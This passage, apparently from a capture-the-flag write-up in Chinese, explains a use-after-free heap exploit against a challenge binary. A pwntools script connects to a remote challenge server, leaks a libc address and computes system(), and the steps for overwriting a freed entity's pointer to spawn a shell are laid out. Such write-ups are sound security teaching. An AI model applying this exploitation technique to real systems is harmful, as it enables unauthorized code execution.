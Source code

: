     具體流程如下
    ```python
    delete(1)
    delete(0)
    register(0, 0x18, p64(0) + p64(bin_sh_addr) + p64(system_addr))
    trigger_event(1)
    ```
    首先把這兩個entity都free掉，這樣回收區就會如下圖一樣
    ![圖片](https://hackmd.io/_uploads/B1fdM7iHT.png)
    接著我們註冊entity 0，又因為這一次要的空間是0x18，所以他會把前面entity 1的空間都拿回來使用，如果我們又把開shell的資訊寫進去，就會如下圖
    ![圖片](https://hackmd.io/_uploads/Sk6GXXoS6.png)
    此時原本被free掉的entity 1的空間就會變成entity 0的name space，此時我們只要trigger entity 1就會開shell了，如下圖
    ![圖片](https://hackmd.io/_uploads/ByhCXQjrT.png)

## Exploit
```python
from pwn import *

# r = process('./chal')
r = remote('10.113.184.121', 10059)
context.arch = 'amd64'

def register(idx, name_len, name):
    r.recvuntil(b'choice: ')
    r.send(b'1')
    r.recvuntil(b'Index: ')
    r.send(str(idx).encode())
    r.recvuntil(b'Nmae Length: ')
    r.send(str(name_len).encode())
    r.recvuntil(b'Name: ')
    r.send(name)

def delete(idx):
    r.recvuntil(b'choice: ')
    r.send(b'2')
    r.recvuntil(b'Index: ')
    r.send(str(idx).encode())

def trigger_event(idx):
    r.recvuntil(b'choice: ')
    r.send(b'3')
    r.recvuntil(b'Index: ')
    r.send(str(idx).encode())


# Fetch Info

## Leak libc address
register(0, 0x420, b'a')
register(1, 0x420, b'a')
delete(0)
delete(1)
register(0, 0x420, b'a')
trigger_event(0)
r.recvuntil(b'Name: ')
leak_libc = u64(r.recv(6).ljust(0x8, b'\x00'))
libc_base = leak_libc - 0x1ecb61
system_addr = libc_base + 0x52290
log.success(f'Leak libc address = {hex(leak_libc)}')
log.success(f'Libc base address = {hex(libc_base)}')
log.success(f'System address = {hex(system_addr)}')
```